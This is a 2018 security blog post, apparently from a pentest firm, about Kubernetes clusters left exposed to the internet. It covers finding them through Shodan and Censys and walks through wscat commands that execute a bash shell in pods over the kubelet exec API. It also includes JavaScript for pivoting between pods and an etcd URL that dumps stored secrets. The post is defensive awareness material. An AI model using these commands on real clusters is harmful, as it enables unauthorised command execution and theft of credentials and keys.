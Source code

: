 ```yaml
---
layout: post
title:  "Kubernetes or KuberPwn"
date:   2018-03-13 13:49:33 +0000
tags: [SSL, pentest, redteam, blueteam]
---
```

![](/blog/assets/kubernetes.png)

Ever since that news story about Telsa’s cloud infrastructure being compromised and a bitcoin miner loaded on their Kubernetes estate. Netscylla was intrigued on how easy this could happen to any of our customers cloud estates. So we decided to do some OSINT (Open Source reconnaissance) and our own research.

Bug Hunting for Kubernetes
We can utilise Shodan and Censys to discover how many Kubernetes platforms are connected to the public Internet. After an initial 15,000+ results from our queries in January, after the news of the compromise we have seen these numbers drop to 12,597; So it looks like developer/administrators are now applying security controls to their accounts.

Locating Vulnerable Management Interfaces
Finding open management interfaces is as easy as querying Shodan/Censys for:
* KubernetesDashboard
* Kubernetes-master
* Kubernetes
* Kube

## The Common Vulnerabilities

### Unsecured Dashboards
* Port 10250/TCP Open
* Port 2379/TCP Open
* Unsecured dashboards
Are the graphical management interfaces which are the easiest to compromise, just click around the interface looking for storage links; You may be lucky enough to spot some credentials for an S3 bucket?

![](/blog/assets/kubernetes_2.png)

### 10250/TCP Management Port
The HTTPS service on 10250/TCP is the default management API interface for Kubernetes clusters. Not secured by default! This means that the developer/administrator is responsible for securing their services.

By abusing the API we can achieve low level command execution as noted previously by Alexander Urcioli and this stack overflow thread: https://stackoverflow.com/questions/44394839/kubernetes-exec-throw-the-websocket-api

In order to follow Alexander’s workflow you need to install wscat, for those not familiar with node the instructions are below:
```
apt-get update 
apt-get install -y npm 
ln -s /usr/bin/nodejs /usr/bin/node 
npm install -g n n stable 
npm install -g wscat
```
Then your free to execute a command structured as:
```
wscat -c "ws://<Kubernetes IP>:<API PORT>/api/v1/namespaces/ \ default/pods/<POD NAME>/exec?container=<DOCKER_NAME>&stdin=1& \ 
stdout=1&stderr=1&tty=1&command=<PAYLOAD_HERE>"
```
Example executed within AWS VPC:
```
wscat -c "ws://172.21.1.11:8080/api/v1/namespaces/default/pods/my-nginx-3855515330-l1uqk/exec?container=my-nginx&stdin=1&stdout=1&stderr=1&tty=1&command=%2Fbin%2Fbash"
```
And if you have already compromised a pod (by some other means), to attack another pod, you could simply use JavaScript:
```
<script type=”text/javascript”> 
angular.module(‘exampleApp’, [‘kubernetesUI’])
  .config(function(kubernetesContainerSocketProvider) {    
     kubernetesContainerSocketProvider.WebSocketFactory =   
      “CustomWebSockets”; }) .run(function($rootScope) 
{ 
$rootScope.baseUrl = “ws://<KUBERNETES IP>:<PORT>”; 
$rootScope.selfLink = “/api/v1/namespaces/default/pods/<POD_NAME>”; 
$rootScope.containerName = “<DOCKER_NAME>”; 
$rootScope.accessToken = “”; 
$rootScope.preventSocket = true; 
}) 
/* Our custom WebSocket factory adapts the url */ 
.factory(“CustomWebSockets”, function($rootScope) 
{ 
return function CustomWebSocket(url, protocols) 
{ 
url = $rootScope.baseUrl + url; 
if ($rootScope.accessToken) url += “&access_token=” + $rootScope.accessToken; 
return new WebSocket(url, protocols); 
}; 
}); 
</script>
```
### 2379/TCP Etcd Port
The HTTP service on 2379/TCP is the default etcd service for your Kubernets instance. The API interface is accessible and not secured by default!
* http://<kuberenets IP>:2379/v2/keys/?recursive=true
It’ll leak internal passwords, AWS keys, certificates, private keys, encryption keys and more…

## Conclusion
So don’t forget to read https://kubernetes.io/docs/admin/authentication and ensure that your management interfaces are not open to the would and would-be bitcoin miners looking for easy profit.

